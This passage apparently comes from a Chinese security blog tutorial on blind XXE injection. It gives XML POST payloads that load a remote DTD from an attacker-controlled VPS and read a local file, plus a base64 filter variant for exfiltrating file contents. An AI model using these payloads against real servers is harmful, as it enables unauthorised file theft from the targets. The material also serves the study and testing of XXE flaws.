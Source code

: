 ![](https://img-blog.csdnimg.cn/2020031821014113.png)



**POST提交的数据**



```
<?xml version="1.0"?>      
<!DOCTYPE message [      
    <!ENTITY % remote SYSTEM "http://VPS的http服务/xml.dtd">        
    <!ENTITY % file SYSTEM "file:///C:/Users/mi/Desktop/1.txt">      
    %remote;      
    %send;      
]>
```




![](https://img-blog.csdnimg.cn/2020031821050354.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200318210320250.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



但是如果读取的文件数据有空格的话，这样的读不出来的，所以我们可以用base64编码



```
<?xml version="1.0"?>      
<!DOCTYPE message [      
    <!ENTITY % remote SYSTEM "http://VPS的http服务/xml.dtd">        
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/Users/mi/Desktop/1.txt">      
    %remote;      
    %send;      
]>
```




![](https://img-blog.csdnimg.cn/20200318212512942.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/2020031821245083.png)



然后对base64进行解码



![](https://img-blog.csdnimg.cn/20200318212614838.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



如果目标是JAVA环境的话，建议采用FTP协议，相关文章：[利用Blind XXE Getshell](https://xie1997.blog.csdn.net/article/details/104933799 "利用Blind XXE Getshell")
